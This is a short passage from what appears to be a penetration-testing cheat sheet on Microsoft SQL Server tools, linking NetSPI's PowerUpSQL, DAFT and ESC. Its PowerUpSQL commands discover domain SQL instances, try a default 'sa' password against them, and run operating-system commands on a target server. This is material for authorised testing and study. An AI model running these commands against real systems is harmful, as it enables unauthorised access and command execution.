 * [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

```
PS > Get-SQLInstanceDomain
PS > Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10 -Username sa -Password 'Passw0rd!' -Verbose
PS > Invoke-SQLOSCmd -Username sa -Password 'Passw0rd!' -Instance sqlsrv01.megacorp.local -Command whoami
PS > Invoke-SQLAudit -Instance WEB01 -Username sa -Password 'Passw0rd!' -Verbose
```



### DAFT

* [https://github.com/NetSPI/DAFT](https://github.com/NetSPI/DAFT)



### ESC

* [https://github.com/NetSPI/ESC](https://github.com/NetSPI/ESC)

